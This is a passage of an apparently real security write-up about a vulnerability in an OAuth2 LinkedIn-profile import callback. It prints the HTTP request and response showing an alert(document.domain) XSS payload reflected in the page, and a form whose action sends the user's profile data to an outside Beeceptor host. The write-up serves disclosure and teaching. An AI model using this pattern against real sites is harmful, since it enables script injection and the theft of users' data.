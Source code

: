 The figure above shows the OAuth2 Authorization Code Flow after the authentication/authorization. Once the user is done, the browser redirects him to `https://home.domain_B.nl/\<path\>/importLinkedInProfile?code=XXX&state= YYY`, where a html form sends user’s data to the domain specified in the  `postProfileUrl` parameter (in this case Beeceptor) in XML format:
```
GET /<path>/importLinkedInProfile?code=YYYYYYYYYY&state=XXXXXXXXX HTTP/1.1
Host: home.<domain_B.nl
```
{: file="HTTP Request" }


```
HTTP/1.1 200
x-content-type-options: nosniff
X-XSS-protection: 0
cache-control: no-store, no-cache, must-revalidate, max-age=0, post-check=0, pre-check=0
pragma: no-cache
p3p: CP="This site does not have a p3p policy."
set-Cookie: JSESSIONID=<maybe one day>; Path=/<path>; Secure; HttpOnly; SameSite=None
content-type: text/html; charset=UTF-8
date: Tue, 21 Jul 2020 13:41:59 GMT
p3p: CP=This site does not have a p3p policy.
connection: close
Content-Length: 8591

<html>
   <head>
      <title>
         Sourcebox
      </title>
      <link rel="stylesheet" href="https://home.domain_B.nl/<path>/styles/font-awesome.min.css?v=3.5.21" type="te
      <link rel="stylesheet" href="https://home.domain_B.nl/<path>/styles/style.css?v=3.5.21" type="text/css" mec
      <link rel="icon" href="https://home.domain_B.nl/<path>/styles/images/3.3/favicon.ico?v=3.5.21" type="image,
         <link rel="stylesheet" href="http://home.domain_B.nl/<path>/xxx_sourcebox.css" type="text/css"/>
   </head>
   <body>
      <form id="post_profile" method="post" action="https://pocoauth.free.beeceptor.com">
      <script>
         alert(document.domain)
      </script>
    ________REDACTED________
```
{: file="HTTP Response" }

- [x] ***2° Vuln Got !!!***: the payload was reflected in the response, allowing an attacker to perform an XSS or injection attacks with all consequences of these types of attack. Therefore, if you have a look to the action attribute of the form, the user will be redirected to the site under our control.

![Window shadow](xss_browser.png){: .shadow width="1548" height="864" style="max-width: 90%" }
_XSS_
